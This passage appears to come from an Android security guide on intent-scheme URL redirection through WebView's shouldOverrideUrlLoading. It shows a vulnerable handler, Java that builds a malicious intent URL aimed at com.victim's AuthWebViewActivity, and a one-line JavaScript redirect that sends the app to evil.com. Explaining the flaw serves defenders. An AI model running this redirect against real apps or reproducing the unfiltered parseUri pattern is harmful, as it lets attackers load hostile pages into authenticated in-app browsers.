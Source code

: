 This vulnerability can be exploited both via other vulnerabilities (e.g. the ability to open arbitrary links in-app in WebView directly via exported activities or by way of the deeplink mechanism) in the client app and also remotely, including cross-site scripting on the server side or MitM on the client side

Example of vulnerable code

```
public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
    Uri uri = request.getUrl();
    if("intent".equals(uri.getScheme())) {
        startActivity(Intent.parseUri(uri.toString(), Intent.URI_INTENT_SCHEME));
        return true;
    }
    return super.shouldOverrideUrlLoading(view, request);
}


```

The point here is that the `shouldOverrideUrlLoading(...)` method of class `WebViewClient` is called each time WebView tries to load a new link, but gives the app the option of adding a custom handler.

To exploit this vulnerability the attacker needs to create a WebView redirect to a specially prepared intent-scheme URL. Example of URL creation

```
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://evil.com/");
Log.d("evil", intent.toUri(Intent.URI_INTENT_SCHEME)); // outputs "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com%2F;end"


```

Example attack

```
location.href = "intent:#Intent;component=com.victim/.AuthWebViewActivity;S.url=http%3A%2F%2Fevil.com%2F;end";


```

This version contains several restrictions compared to the classic version of the vulnerability:

*   Embedded `Parcelable` and `Serializable` objects cannot be cast to string (they will be ignored)
*   The insecure flags `Intent.FLAG_GRANT_READ_URI_PERMISSION` and `Intent.FLAG_GRANT_WRITE_URI_PERMISSION` are ignored when `Intent.parseUri(...)` is called. The parser will only leave them if the `Intent.URI_ALLOW_UNSAFE` (`startActivity(Intent.parseUri(url, Intent.URI_INTENT_SCHEME | Intent.URI_ALLOW_UNSAFE))` flag is set, which is very rare

Many developers still forget to carry out a complete filtering of intents received via WebView

